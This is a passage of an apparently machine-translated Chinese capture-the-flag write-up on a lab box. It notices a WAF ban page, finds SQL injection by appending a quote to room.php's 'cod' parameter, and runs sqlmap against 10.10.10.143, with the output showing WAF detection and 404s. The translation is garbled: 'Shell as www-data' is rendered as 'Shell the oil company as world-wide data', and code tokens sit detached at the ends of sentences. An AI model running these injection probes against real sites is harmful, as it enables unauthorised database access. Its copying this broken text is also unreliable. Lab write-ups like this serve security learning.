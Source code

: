     ===============================================================
    

### 网站 - TCP 64999

该网站只有一段静态文本：

> 嘿，你已经被禁止了90秒，不要太坏了

这可能与 WAF 有关吗？

## 壳牌作为万维数据

### SQL 注入

#### 列举

我之前注意到了其中的论点，.我可以通过在末尾添加一个来破坏页面：`room.php``cod``'`

![](https://image.cubox.pro/article/2022091809190271122/20585.jpg)

它不会使页面崩溃或返回500，但房间的信息和图片不再存在。这表明 SQL 注入。

#### sqlmap

测试 SQLI 的最简单方法是将其传递到 。在这里，它崩溃了：`sqlmap`

    root@kali# sqlmap -u http://10.10.10.143/room.php?cod=1
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.3.4#stable}
    |_ -| . [']     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 02:02:36 /2019-06-28/
    
    [02:02:36] [INFO] testing connection to the target URL
    [02:02:36] [INFO] checking if the target is protected by some kind of WAF/IPS
    [02:02:36] [WARNING] turning off pre-connect mechanism because of connection reset(s)
    [02:02:36] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
    do you want sqlmap to try to detect backend WAF/IPS? [y/N] y
    [02:02:40] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
    [02:02:40] [INFO] using WAF scripts to detect backend WAF/IPS protection
    [02:02:40] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
    [02:02:40] [INFO] heuristics detected web page charset 'ascii'
    [02:02:40] [WARNING] WAF/IPS product hasn't been identified
    [02:02:40] [INFO] testing if the target URL content is stable
    [02:02:41] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
    how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
    [02:02:45] [INFO] searching for dynamic content
    [02:02:45] [CRITICAL] page not found (404)
    [02:02:45] [WARNING] HTTP error codes detected during run:
    404 (Not Found) - 8 times
    